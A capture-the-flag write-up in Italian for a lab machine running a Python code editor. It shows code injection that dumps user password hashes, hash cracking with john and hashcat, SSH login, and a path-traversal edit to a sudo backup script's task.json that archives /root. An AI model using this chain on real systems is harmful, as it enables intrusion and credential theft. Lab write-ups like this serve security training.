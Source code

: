 # Code

## NMAP SCAN
Nmap scan report for 10.10.11.62
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   309.34 ms 10.10.16.1
2   112.86 ms 10.10.11.62

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.97 seconds


noto aperte le 2 porte 22 e 5000. cerco online cosa è Gunicorn


##  Exploit

Noto che viene usato il servizio Gunicorn 20.0.4 

Provo a fuzzare un po' con il sito. immaginando ci sia flask, provo a farmi stampare gli utenti.

> print([(user.id, user.username, user.password) for user in User.query.all()])
stampo gli utenti e le password.




## PASSWORD CRACKING
### using john

> development:759b74ce43947f5f4c91aeddc3e5bad3
> martin:3de6f30c4a09c27fc71932bfc68474be

> john --wordlist /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt --format=raw-md5 pass.txt 

```
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Remaining 1 password hash
Warning: no OpenMP support for this hash type, consider --fork=8
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2025-05-17 14:14) 0g/s 59100p/s 59100c/s 59100C/s !@#$%..sss
Session completed. 
```

### using hashcat

hash.txt:
> 759b74ce43947f5f4c91aeddc3e5bad3
> 3de6f30c4a09c27fc71932bfc68474be
 

> hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt 

759b74ce43947f5f4c91aeddc3e5bad3:development              
3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster     


## SSH exploit


> martin
> nafeelswordsmaster

vedo un file di backup e una cartella backups.

scarico prima il backup poi esploro

> python3 -m http.server 8080

> wget 10.10.11.62:8080/code_home_.._root_2025_May.tar.bz2 -> file vuoto
> 

> wget 10.10.11.62:8080/backups/code_home_app-production_app_2024_August.tar.bz2
>
> tar -xjvf code_home_app-production_app_2024_August.tar.bz2 
>
è la home del sito, con tanto di codice

non c'è nulla neanche nel db -> analizzo il resto.

nella cartella /backups trovo task.json -> contiene delle cartelle che verranno backuppate.

> sudo -l -> posso usare /usr/bin/backy.sh senza password -> esegue il backup della cartella specificata in task.json

---

Ipotizzo che user.txt sia in app-production dato che è un altro utente, e martin non ha la flag.

modifico task.json per scaricare /home/app-production/user.txt nel backup, e poi lo scarico in locale:

```json
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/app-production/user.txt"
        ],

        "exclude": [
                ".*"
        ]
}
```
> sudo /usr/bin/backy.sh task.json

> wget 10.10.11.62:8080/code_home_app-production_2025_May.tar.bz2

> tar -xjvf  code_home_app-production_2025_May.tar.bz2


# USER FLAG

2fad8d2c76c93fe868dd8c5630439ebd

# PRIVESC

uso lo stesso file per archiviare la cartella root


```json
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/../root"
        ],

        "exclude": [
                ".*"
        ]
}
```

eseguo

> sudo /usr/bin/backy.sh task.json

> wget 10.10.11.62:8080/code_home_.._root_2025_May.tar.bz2

> tar -xjvf code_home_.._root_2025_May.tar.bz2